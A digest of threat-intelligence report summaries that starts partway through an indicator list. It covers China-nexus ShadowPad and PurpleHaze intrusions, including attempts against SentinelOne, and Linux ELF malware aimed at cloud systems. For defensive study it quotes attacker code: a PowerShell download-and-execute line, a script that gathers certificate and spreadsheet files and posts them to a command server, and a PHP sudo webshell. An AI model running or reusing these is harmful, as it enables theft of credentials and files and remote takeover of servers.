4954E8ACE23B48EC55F1FF3A47033351E9FA2D6C
562E1678EC8FDC1D83A3F73EB511A6DDA08F3B3D
66BD8DB40F4169C7F0FCA3D5D15C978EFE143CF8
6973D3FF8852A3292380B07858D43D0B80C0616E
73D0FAA475C6E489B2C5C95BB51DEDE4719D199E
B8AFC21EF2AA854896B97F1C81B376DCDDE2466D
BB4FFCDBFAD40125080C13FA4917A1E836A8D101
BE0AD25B7B48347984908175404996531CFD74B7
E8E6E6AFEF3F574C1F5228BDB28ABB34F8A0D09A
F28D8C5C2283019E6ED788D20240ABC8554CADB5
```

**Domains**
```
olinpa[.]com
zaincell[.]store
```

**IPs**
```
178.209.51[.]61
185.76.78[.]177
```

**Original link:** [https://www.welivesecurity.com/en/eset-research/bladedfeline-whispering-dark/](https://www.welivesecurity.com/en/eset-research/bladedfeline-whispering-dark/)

## Follow the Smoke - China-nexus Threat Actors Hammer At the Doors of Top Tier Targets
### Summary
This research from SentinelLABS details cyber activity observed between July 2024 and March 2025, attributed with high confidence to China-nexus threat actors. The report highlights two main activity clusters, PurpleHaze and ShadowPad, which encompass multiple intrusions targeting a diverse range of organizations globally, including government entities, media organizations, organizations across manufacturing, finance, telecommunications, research, and notably, cybersecurity vendors. The targeting of cybersecurity vendors is presented as a rarely discussed aspect of the threat landscape, viewed as high-value targets due to their protective roles, extensive visibility into client environments, and ability to disrupt adversary operations.

The report underscores the persistent threat posed by China-nexus cyberespionage actors and advocates for increased transparency, intelligence sharing, and collaboration within the cybersecurity community to strengthen collective defenses against such advanced persistent threats. While SentinelOne itself was targeted through reconnaissance activity and indirectly through an intrusion into a logistics provider, the attackers were unsuccessful in compromising SentinelOne's infrastructure, software, or hardware assets. The findings reflect a persistent interest of these actors in organizations tasked with defending digital infrastructure.

### Technical Details
The research outlines two distinct, though partially related, activity clusters: ShadowPad and PurpleHaze. Attribution for both clusters is made with high confidence to China-nexus threat actors, with some associations to groups overlapping with APT15 and UNC5174 in the case of PurpleHaze. The use of ShadowPad, a closed-source modular backdoor, is associated with multiple suspected China-nexus actors conducting cyberespionage, including clusters linked to APT41.

**ShadowPad Intrusions (Activity A, B, C)**
Activity A involved the deployment of a ShadowPad sample named `AppSov.exe` at a South Asian government entity in June 2024. This sample was obfuscated using a variant of ScatterBrain, an evolution of ScatterBee. The deployment was initiated via a PowerShell command that downloaded `x.dat` from a compromised system within the same organization and saved it as `AppSov.exe` in `C:\ProgramData\` before executing it and scheduling a system reboot.

```powershell
sleep 60;curl.exe -o c:\programdata\AppSov.EXE http://[REDACTED]/dompdf/x.dat;start-process c:\programdata\AppSov.EXE;sleep 1800;shutdown.exe -r -t 1 -f;
```
Prior to the ShadowPad deployment on this system, malware artifacts were found from approximately a month earlier, including the Nimbo-C2 agent (`PfSvc.exe`) masquerading as a Privacyware Privatefirewall executable in `C:\ProgramData\Prefetch\`, and a PowerShell script used for data collection and exfiltration. The script recursively searched `C:\Users\` for specific file extensions (`*.xls`, `*.xlsx`, `*.ods`, `*.txt`, `*.pem`, `*.cert`, `*.pfx`) modified in the last 600 days, copied them to a temporary folder (`C:\windows\vss\temp`), archived them using 7-Zip with a hardcoded password (`@WsxCFt6&UJMmko0`) and a filename based on MAC address and date, encrypted/password-protected the archive, exfiltrated it via a `curl POST` request to `https[://]45.13.199[.]209/rss/rss.php`, and finally deleted the temporary files to remove traces.

```powershell
$days=600;
$dirs='C:\Users\'
$types='.\.xls$|\.xlsx$|\.ods$|\.txt$|\.pem$|\.cert$|\.pfx$'
$upurl='https://45.13.199[.]209/rss/rss.php';
$pass='@WsxCFt6&UJMmko0';
$wPath='C:\windows\vss';
$wDate=(Get-Date -Format 'yyyyMMdd');
$mac=((Get-NetAdapter | Where-Object {$_.Status -eq 'Up'} | Select-Object -First 1 -ExpandProperty MacAddress)-replace '[:-]','').ToLower();
New-Item -ItemType Directory -Path $wPath\temp;
Get-ChildItem $dirs -Recurse | Where-Object -FilterScript {$_.LastWriteTime -ge (Get-Date).AddDays(-$days) -and $_.Name -match $types} | % { Copy-Item $_.FullName -Destination $wPath\temp\ };
Compress-Archive -Path $wPath\temp -Update -DestinationPath $wPath\$mac-$wDate.zip;
& "C:\Progra~1\7-Zip\7z.exe" a -mhe=on $wPath\$mac-$wDate.zip -p"$pass" $wPath\*.zip;
cmd /c "curl.exe -X POST -F file=@$wPath\$mac-$wDate.zip -k $upurl";
Remove-Item -Path $wPath\temp,$wPath\*.zip,$wPath\*.dat -Recurse;
```
The presence of Nimbo-C2, previously seen in operations attributed to APT-K-47 (Mysterious Elephant), alongside ShadowPad, which is associated with China-nexus actors like APT41, raises possibilities of access handoff, independent actors, or the same actor using varied toolsets.

The `AppSov.exe` sample utilized DNS over HTTPS (DoH) with Google's resolver (8.8.8.8) to communicate with its C2 server, `news.imaginerjp[.]com` (resolved to 65.38.120[.]110), by Base-64 encoding queried domains. The malware employed dispatcher routines, displacements, and opaque predicates for obfuscation, and verified its integrity using specific constant values. It contained modules identified by IDs 0x0A and 0x20.

Activity B and C represent a global ShadowPad operation leveraging samples with implementation overlaps with `AppSov.exe` but using different ScatterBee variants, configuration data, decryption/integrity verification constants, and associated infrastructure (C2 servers `dscriy.chtq[.]net`, `updata.dsqurey[.]com`, suspected related domains `network.oossafe[.]com`, `notes.oossafe[.]com`). Some samples were implemented as Windows DLLs designed for DLL hijacking by legitimate executables, loading external files with `.tmp` extensions. This broader operation impacted over 70 organizations across various sectors globally between July 2024 and March 2025. One victim (Activity C) was the IT services and logistics company managing hardware for SentinelOne employees. Suspected initial access vectors included the exploitation of vulnerable Check Point gateway devices, and possibly Fortinet Fortigate, Microsoft IIS, SonicWall, and CrushFTP servers.

**PurpleHaze Activity Cluster (Activity D, E, F)**
The PurpleHaze cluster encompasses activity between September and October 2024. Activity D, occurring in early October 2024, involved a return to the same South Asian government entity previously targeted with ShadowPad. This activity involved system reconnaissance (`ipconfig`) and deployment of the GOREshell backdoor. The threat actor created a directory (`C:\Program Files\VMware\VGAuth`), downloaded and extracted an archive (`VGAuth1.zip`) containing a legitimate `VGAuthService.exe` and a malicious DLL (`glib-2.0.dll`) masquerading as a GLib–2.0 library file. The legitimate `VGAuthService.exe` (version 11.3.5.59284) was vulnerable to DLL hijacking. A new Windows service named `VGAuthService` was created to load the legitimate executable, which in turn loaded the malicious DLL upon startup.

```powershell
sc create VGAuthService binPath= "\"C:\\Program Files\\VMware\\\VGAuth\\VGAuthService.exe\"" start=auto error=ignore displayname="Alias Manager and Ticket Service"
```
The `glib-2.0.dll` implements the GOREshell backdoor, a Go-language malware cluster including `reverse_ssh` variants, obfuscated using Garble and potentially using `cgo`. It contains an embedded private SSH key used to establish SSH connections to attacker-controlled endpoints. This variant was configured to use `downloads.trendav[.]vip` (resolved to 142.93.214[.]219) over the Websocket protocol (wss://downloads.trendav[.]vip:443) for C2 communication.

GOREshell variants were also deployed on Linux systems, masquerading as `snapd` and `update-notifier` services, configured with service files (e.g., `/usr/lib/systemd/system/update-notifier.service`) and using `epp.navy[.]ddns[.]info` as C2, proxying connections through a local IP address. Both Linux samples and `glib-2.0.dll` shared the same private SSH key, indicating reuse across different platforms and variants. An older variant from September 2023, `tapisrv.dll`, also shared this private key and was loaded via DLL hijacking by `svchost.exe`, using `mail.ccna[.]organiccrap[.]com` for C2, demonstrating key reuse over time.

The threat actor used an operational relay box (ORB) network for C2 infrastructure, which is tracked as being operated from China and used by multiple suspected Chinese actors, including those overlapping with APT15. Efforts were made to obscure activity, including timestomping executables and deploying a custom log removal tool, `mcl`, on Linux systems, which appears to be a modified version of the publicly available `clear13` tool from The Hacker’s Choice (THC) community. `mcl` supported commands for executing with sudo, clearing log entries from `wtmp`, `utmp`, and `lastlog`, clearing `secure` logs based on time strings, and truncating command history.

Activity E, occurring in October 2024, involved remote reconnaissance attempts targeting Internet-facing SentinelOne servers over port 443. Infrastructure analysis linked this activity to the October intrusion into the South Asian government entity (Activity D), suggesting coordinated infrastructure management or the same threat actor/third-party entity. The initial connections originated from a VPS (`128.199.124[.]136`) mapped to `tatacom.duckdns[.]org`, designed to appear as telecommunications infrastructure. An extensive collection of related network infrastructure was identified via a unique server fingerprint. This fingerprint linked IPs like `142.93.214[.]219` (used by `downloads.trendav[.]vip` in Activity D) and `143.244.137[.]54` (mapped to `cloud.trendav[.]co`). Domain registration data for `trendav[.]vip`, `secmailbox[.]us`, and `sentinelxdr[.]us` (likely impersonating SentinelOne) showed identical registration dates and times, and subsequent registration updates, further linking the infrastructure. `sentinelxdr[.]us` resolved to `142.93.214[.]219` in early 2025, the same IP as `downloads.trendav[.]vip` in late 2024.

Activity F, in late September 2024, involved an intrusion into a leading European media organization. This intrusion showed tooling overlaps with Activity D, including a UPX-packed GOREshell sample (`107.173.111[.]26` over WebSocket for C2) containing a private SSH key, and the use of publicly available tools from THC, specifically version 2.5a1 of `dsniff`. An older GOREshell sample from July 2024, uploaded from Iran, also shared the same C2 IP (`107.173.111[.]26`) and a different private key but the same public key fingerprint as the sample used in Activity F, suggesting activity dating back to at least July 2024 and potentially targeting the Middle East.

Initial access in Activity F is strongly suggested to have been gained by exploiting Ivanti Cloud Services Appliance vulnerabilities CVE-2024-8963 and CVE-2024-8190 on September 5, 2024, a few days before public disclosure. This exploitation chain was also reported by CISA/FBI and ANSSI in early 2025, with ANSSI noting TTP overlaps with UNC5174. The threat actor leveraged an ORB network, suspected to be operated from China, likely involving compromised network edge devices. Post-intrusion, they deployed a simple PHP webshell enabling remote command execution via the `a` parameter using `sudo`.

```php
<?php system('/bin/sudo '. @$_REQUEST['a']);?>
```
Timestomping of deployed executables (setting creation date to September 15, 2021) was also observed in Activity F. The suspected involvement of UNC5174, assessed as a contractor for China's MSS specializing in initial access and vulnerability exploitation, aligns with the observation of access potentially being transferred to other threat actors after compromise.

### Countries
Targeted countries include:
*   South Asia (Government entity)
*   Europe (Media organization, SentinelOne presence)
*   Globally (Over 70 organizations)
*   Potentially Middle East/Iran

### Industries
Targeted industries include:
*   Cybersecurity vendors (SentinelOne targeted by reconnaissance)
*   IT services and logistics (Supplier to SentinelOne)
*   Government entities
*   Media organizations
*   Manufacturing
*   Finance
*   Telecommunications
*   Research

### Recommendations
The sources provide the following recommendations, focusing primarily on strategic and operational aspects rather than specific technical controls (beyond general monitoring and response):
*   Prioritize transparency, intelligence sharing, and coordinated action within the cybersecurity community.
*   Strengthen industry defenses through transparency and collaboration.
*   Adopt a proactive approach to threat intelligence sharing and defense coordination, recognizing collective security.
*   Maintain constant vigilance, robust monitoring, and rapid response capabilities.

### Hunting methods
The source describes the use of various methods by SentinelLABS to detect and track the threat actor activity, but does not provide specific hunting rules (like YARA, Sigma, KQL, SPL, IDS/IPS, WAF rules).

Methods used and implied for hunting include:
*   Analyzing SentinelOne telemetry data.
*   Monitoring C2 netflow data.
*   Continuous monitoring of network traffic to Internet-exposed servers.
*   Analyzing system and network traffic artifacts.
*   Identifying unique server fingerprints.
*   Analyzing domain registration patterns (e.g., bulk registration, overlapping dates/registrars).
*   Analyzing malware samples for implementation characteristics (configuration data, decryption/integrity verification constants, module IDs).
*   Analyzing malware samples for embedded secrets (e.g., private SSH keys) and cross-referencing them with other samples.
*   Monitoring for specific TTPs, such as DLL hijacking, use of specific commands (`sc create`, `curl`, `system` in webshells, `ipconfig`), PowerShell script activity (file searches, compression, exfiltration), or the use of specific publicly available tools (`dsniff`, `clear13`/`mcl`, `7-Zip`, `curl`).
*   Monitoring for specific C2 communication patterns (DNS over HTTPS, Websocket, TLS) and infrastructure (domains, IPs, ORB networks).
*   Investigating exploitation of known vulnerabilities (CVE-2024-8963, CVE-2024-8190).
*   Searching for malware artifacts masquerading as legitimate software or services (`VGAuthService.exe`/`glib-2.0.dll`, `PfSvc.exe`/Nimbo-C2, Linux `snapd`/`update-notifier`, `svchost.exe`/`tapisrv.dll`).

Although no specific hunting rules are provided, analysts could develop rules or queries based on the observed indicators and techniques. For example, YARA rules could be written to detect the specific integrity verification constants in ShadowPad samples, or specific strings/code segments from GOREshell variants or the PowerShell script. Network detection rules could be created to flag connections to the identified C2 domains and IP addresses, particularly over unusual protocols or ports (e.g., Websockets on 443 for SSH). Behavioral detection could look for the execution of specific command sequences or the creation of files in suspicious directories.

### IOC
**Hashes**
```
106248206f1c995a76058999ccd6a6d0f420461e
411180c89953ab5e0c59bd4b835eef740b550823
4896cfff334f846079174d3ea2d541eec72690a0
5ee4be6f82a16ebb1cf8f35481c88c2559e5e41a
7dabf87617d646a9ec3e135b5f0e5edae50cd3b9
a31642046471ec138bb66271e365a01569ff8d7f
a88f34c0b3a6df683bb89058f8e7a7d534698069
aa6a9c25aff0e773d4189480171afcf7d0f69ad9
c43b0006b3f7cd88d31aded8579830168a44ba79
cb2d18fb91f0cd88e82cb36b614cfedf3e4ae49b
cbe82e23f8920512b1cf56f3b5b0bca61ec137b9
ebe6068e2161fe359a63007f9febea00399d7ef3
f52e18b7c8417c7573125c0047adb32d8d813529
```

**Domains**
```
cloud.trendav[.]co
downloads.trendav[.]vip
dscriy.chtq[.]net
epp.navy[.]ddns[.]info
mail.ccna[.]organiccrap[.]com
mail.secmailbox[.]us
network.oossafe[.]com
news.imaginerjp[.]com
notes.oossafe[.]com
secmailbox[.]us
sentinelxdr[.]us
tatacom.duckdns[.]org
trendav[.]vip
updata.dsqurey[.]com
```

**IP Addresses**
```
103.248.61[.]36
107.173.111[.]26
128.199.124[.]136
142.93.212[.]42
142.93.214[.]219
143.244.137[.]54
45.13.199[.]209
65.38.120[.]110
```

**URLs**
```
https[://]45.13.199[.]209/rss/rss.php
```

**Original link:** [https://www.sentinelone.com/labs/follow-the-smoke-china-nexus-threat-actors-hammer-at-the-doors-of-top-tier-targets/](https://www.sentinelone.com/labs/follow-the-smoke-china-nexus-threat-actors-hammer-at-the-doors-of-top-tier-targets/)


## The Evolution of Linux Binaries in Targeted Cloud Operations
### Summary
Threat actors are increasingly focusing on developing and deploying Linux Executable and Linkage Format (ELF) files specifically tailored to target cloud infrastructure. This shift represents a significant evolution from historical targeting of traditional Linux operating systems, with threat actors predicted to use more complex tools in their cloud-based exploits. These malicious ELF samples encompass various types of capabilities, including backdoors, droppers, remote access Trojans (RATs), data wipers, and vulnerability-exploiting binaries. Researchers have identified and analyzed five specific ELF-based malware families actively used by threat actor groups in cloud operations, confirming their direct exploitation of cloud infrastructure using these binaries. The observed activity suggests a continued reliance on ELF binaries against cloud environments. Analysis revealed that these malware families are under active development and support, with at least two significant code updates within the last year and each strain seen in at least 20 unique samples in the wild. Given the high prevalence of Linux variants in cloud computational instances (estimated between 70% and 90%), the evolution of common Linux malware families to target cloud resources is a logical progression that attackers can achieve with relative ease by adapting these families for cloud workloads and container environments. This trend is further highlighted by the observed significant increase in cloud-based alerts (388% in 2024) and a rise in advanced persistent threat (APT) attacks. The increasing rate at which threat actors target cloud infrastructure necessitates defenders actively hunting for potential attack vectors, particularly malicious executables that could be used against cloud endpoints for initial access, persistence, and carrying out operations. The observed trend of organizations migrating to the cloud provides threat actors with motivation to continue developing these malware families and pivot their operations into cloud runtime environments. These malware families are assessed as highly likely to be used in future cloud infrastructure attacks.

### Technical Details
The core technical focus of this analysis is the use of Linux ELF files as the vehicle for malicious activity targeting cloud environments. ELF is the standard file format for executables and shared libraries in Linux systems. The malware families investigated are NoodleRAT, Winnti, SSHdInjector, Pygmy Goat, and AcidPour. These families are actively maintained and supported by threat actors.

A key technique observed among these ELF binaries is dynamic linker hijacking, specifically abusing the `LD_PRELOAD` environment variable. By setting `LD_PRELOAD`, attackers can force a legitimate system process to load a malicious shared library before any other shared libraries. This allows threat actors to inject malicious code directly into legitimate system processes without modifying the original binaries. This technique is notably used by Winnti and Pygmy Goat to inject into services like the SSH daemon (sshd). Abusing `LD_PRELOAD` and hooking into critical services like sshd facilitates achieving persistence, establishing stealthy command and control (C2) channels, covertly exfiltrating data, and impacting operations.

General capabilities observed across these malware types, facilitating operational objectives, include establishing C2 communications, gaining access via reverse shells, using SOCKS proxy tunneling for obfuscated C2 traffic, encrypting communications, scheduling code execution, uploading and downloading files, and spoofing process names.

Specific technical details for each family:
- **NoodleRAT:** The Linux variant is an ELF-based backdoor. Its code shares similarities with other backdoors like Rekoobe and Tiny SHell, but it is classified as a distinct family. It has been used in cybercriminal and cyberespionage campaigns.
- **Winnti:** The Linux version is an ELF backdoor. It achieves persistence by abusing `LD_PRELOAD` to load its malicious library into memory without altering system binaries. Its functionality includes remote command execution, file exfiltration, and SOCKS5 proxying for C2. The Linux variant typically consists of two files: the main ELF executable (named `libxselinux` in the source) and an accompanying dynamic library (named `libxselinux.so`).
- **SSHdInjector:** This Linux backdoor specifically targets the SSH daemon (sshd). It injects malicious code into sshd at runtime. This provides persistent access and enables activities such as credential theft, remote command execution, introducing more malware, accessing files and directories, opening remote shells, and exfiltrating data. It is used in cyberespionage operations.
- **Pygmy Goat:** This Linux backdoor was initially found on Sophos XG firewalls but designed for broader Linux targeting. It gains initial access and persistence via rootkit capabilities, leveraging a vulnerability (CVE-2022-1040) in the `libsophos.so` library. Similar to Winnti and SSHdInjector, it injects itself into the SSH daemon (sshd) using the `LD_PRELOAD` environment variable to intercept SSH communications. Actors can communicate with the malware by sending specially crafted ICMP packets (port knocking) or embedding magic bytes within SSH traffic. Capabilities include remote shells, network packet capture, creating cron jobs, and reverse SOCKS5 proxy tunneling.
- **AcidRain and AcidPour:** These are destructive Linux wiper malware strains. AcidRain targets MIPS-architecture modems and routers, while AcidPour is compiled for x86 systems, broadening its potential targets to include Linux x86-based storage arrays, network devices, and industrial control systems. Both wipers use Input/Output Controls (IOCTLs) to destroy data and then self-delete as an evasion technique. AcidPour or similar variants could effectively wipe unprotected x86-based cloud systems if an attacker gains shell access, for example, through a web shell or container escape.

Recent observations indicate the emergence of new hash values associated with these malware families, suggesting ongoing development and deployment. The increasing focus on cloud runtime environments means threat actors are actively adapting and using these tools in that context.

### Countries
Targeted countries include:
- Thailand
- India
- Japan
- Malaysia
- Taiwan
- Other countries in the Asia-Pacific region

### Industries
Targeted industries and entities include:
- Individuals (cyberespionage targets)
- Government institutions
- Telecommunications organizations
- Government agencies and suppliers
- Non-governmental organizations (NGOs)
- Healthcare sector entities
- Transportation sector entities
- Storage arrays
- Network devices
- Industrial control systems
- Modems and routers
- Sophos XG firewall devices

### Recommendations
Defenders should actively hunt for potential attack vectors that cloud threat actors might exploit for access, persistence, and operations. Specifically, investigating malicious executables targeting cloud endpoints is recommended. Implementing endpoint security agents on cloud computing instances is critical for detecting malicious runtime processing, network traffic, and suspicious behaviors. Modern cloud endpoint agents possess the capability to detect these specific malware families. A recommended detection approach involves leveraging machine learning, particularly for flagging malicious binaries. An effective machine learning model for this purpose should consider factors such as kernel-mode system calls, import functions, evasion techniques, network traffic characteristics, and patterns of unknown binaries. Threat hunting for common ELF malware executions within cloud endpoints can yield valuable insights. Utilizing Cloud Detection and Response (CDR) solutions is advised, as CDR integrates Endpoint Detection and Response (EDR) capabilities, provides detection and prevention for executable processes on cloud endpoints, and incorporates auditing and logging features from the cloud service platform.

**Original link:** [https://unit42.paloaltonetworks.com/elf-based-malware-targets-cloud/](https://unit42.paloaltonetworks.com/elf-based-malware-targets-cloud/)